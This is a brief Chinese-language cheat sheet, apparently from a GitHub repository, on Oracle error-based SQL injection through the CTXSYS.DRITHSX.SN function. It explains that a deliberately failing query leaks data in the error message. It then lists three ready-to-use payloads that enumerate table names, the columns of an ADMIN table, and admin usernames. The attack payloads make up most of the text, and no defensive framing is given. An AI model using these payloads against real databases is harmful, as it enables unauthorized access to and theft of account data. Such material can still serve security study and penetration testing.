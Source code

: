 # 报错注入
需要用到的函数 ==CTXSYS.DRITHSX.SN(用户,(查询的语句))== 查询数据库版本
- 去查询关于主题的对应关键字，然后因为查询失败（应该是这个用户没有创建和查询的权限，默认情况没有创建，爆出未查询到的错误从而爆出查询的内容）



1. 查询表

   ```mssql
   and 1= ctxsys.drithsx.sn(1,(select table_name from (select rownum r,table_name from user_tables) where r=1))
   ```

2. 数据字段

   ```mssql
   and 1= ctxsys.drithsx.sn(1,(select column_name from (select rownum r,column_name from user_tab_columns where table_name='ADMIN') where r=1))
   ```

3. 数据

   ```
   and 1= ctxsys.drithsx.sn(1,(select uname from (select rownum r,uname from admin) where r=1))
   ```